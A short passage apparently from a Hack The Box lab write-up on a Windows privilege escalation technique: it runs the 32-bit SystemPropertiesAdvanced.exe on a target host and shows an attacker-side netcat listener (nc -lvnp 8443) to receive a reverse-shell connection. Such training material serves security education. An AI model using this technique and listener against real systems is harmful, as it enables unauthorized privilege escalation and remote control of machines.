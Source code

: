 Now, we can try the 32-bit version of `SystemPropertiesAdvanced.exe` from the target host.

```cmd
C:\htb> C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

<mark style="color:green;">**Receiving Connection Back**</mark>

```shell-session
mrroboteLiot_1@htb[/htb]$ nc -lvnp 8443
```
